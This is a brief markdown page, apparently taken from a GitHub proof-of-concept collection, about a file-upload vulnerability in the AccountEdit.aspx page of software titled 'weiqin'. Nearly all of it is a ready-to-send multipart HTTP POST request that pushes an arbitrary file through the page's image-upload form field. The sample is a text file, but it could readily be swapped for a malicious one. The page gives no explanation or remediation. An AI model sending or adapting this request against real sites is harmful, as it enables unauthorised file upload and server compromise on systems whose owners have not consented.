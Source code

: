 # weiqin_AccountEdit_fileupload

from: https://github.com/wy876/POC/blob/83ffd34e35da0bb8b1f8325dd4810e31b0d8a01a/%E5%BE%AE%E6%93%8E-AccountEdit-file-upload%E6%96%87%E4%BB%B6%E4%B8%8A%E4%BC%A0%E6%BC%8F%E6%B4%9E.md

2024.5.20 @2
```
POST /User/AccountEdit.aspx HTTP/1.1
Host:
User-Agent:Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:108.0) Gecko/20100101 Firefox/108.0
Accept-Encoding: gzip, deflate, br
Content-Type: multipart/form-data;boundary=---------------------------8448979704593935221298734076

-----------------------------8448979704593935221298734076
Content-Disposition: form-data; name="__VIEWSTATE"

{VIEWSTATE}
-----------------------------8448979704593935221298734076
Content-Disposition: form-data; name="__EVENTVALIDATION"

{EVENTVALIDATION}
-----------------------------8448979704593935221298734076
Content-Disposition: form-data; name="ctl00$MyContentPlaceHolder$ctl00$upload"; filename="111.txt"
Content-Type: text/plain

1233311
-----------------------------8448979704593935221298734076
Content-Disposition: form-data; name="ctl00$MyContentPlaceHolder$ctl00$bttnUpload"

上传图片
-----------------------------8448979704593935221298734076
Content-Disposition: form-data; name="ctl00$MyContentPlaceHolder$ctl00$txtLastName"


-----------------------------8448979704593935221298734076
Content-Disposition: form-data; name="ctl00$MyContentPlaceHolder$ctl00$txtEmail"


-----------------------------8448979704593935221298734076--
```
